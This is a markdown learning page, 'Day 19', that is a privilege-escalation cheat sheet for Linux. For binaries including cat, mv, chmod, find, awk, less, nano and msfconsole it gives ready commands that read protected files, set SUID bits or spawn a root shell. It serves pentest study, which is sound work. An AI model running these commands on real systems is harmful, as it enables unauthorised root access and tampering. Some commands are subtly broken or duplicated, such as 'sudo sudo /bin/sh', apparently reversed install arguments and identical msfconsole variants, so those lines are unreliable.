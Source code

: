 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"


# ♦ `mv` : 
   ⇨  The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.


#### Command:

   • SUID :
   
   ```sh
  sudo install -m =xs $(which mv) .

  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  ./mv $TF $LFILE
  ```
• Sudo:
   ```sh
  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  sudo mv $TF $LFILE
```

### ♦ `chmod` :
   ⇨ The `chmod` command can change file permissions with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which chmod) .

  LFILE=file_to_change
  ./chmod 6777 $LFILE
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  sudo chmod 6777 $LFILE
  ```

### ♦ `install` :
     The `install` command can change permissions and execute a copy of the file with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which install) .

  LFILE=file_to_change
  TF=$(mktemp)
  ./install -m 6777 $LFILE $TF
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  TF=$(mktemp)
  sudo install -m 6777 $LFILE $TF
  ```

### ♦ `msfconsole` :
   ⇨ The `msfconsole` can spawn a Ruby interpreter to break out of restricted environments and escalate privileges.

**Commands:**
• Shell:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```
• Sudo:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```

### ♦ `nano`
   ⇨ The `nano` text editor can be exploited to spawn a shell with elevated privileges if allowed to run as superuser.

**Commands:**
• Sudo:
  ```sh
  sudo nano
  ```
  • In nano, press `Ctrl+R` then `Ctrl+X`, then type:
  ```sh
  reset; sh 1>&0 2>&0
  ```

### ♦ `less`
   ⇨ The `less` command can be used to read files with elevated privileges and can also spawn a shell.

**Commands:**
• Sudo:
  ```sh
  sudo less /etc/passwd
  ```
  • In less, type:
  ```sh
  !/bin/sh
  ```

### ♦ `find`
   ⇨ The `find` command can be used to search for files with elevated privileges and can be abused to spawn a shell.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which find) .
  ./find . -exec /bin/sh \;
  ```
• Sudo:
  ```sh
  sudo find . -exec /bin/sh \;
  ```

### ♦ `awk`
   ⇨ The `awk` command is a powerful text-processing tool that can be exploited to spawn a shell with elevated privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which awk) .
  ./awk 'BEGIN {system("/bin/sh")}'
  ```
• Sudo:
  ```sh
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```

---


### ⇨ These are the various ways of privillage escalation by using some comman commands. Each of them are used in different scenarios.
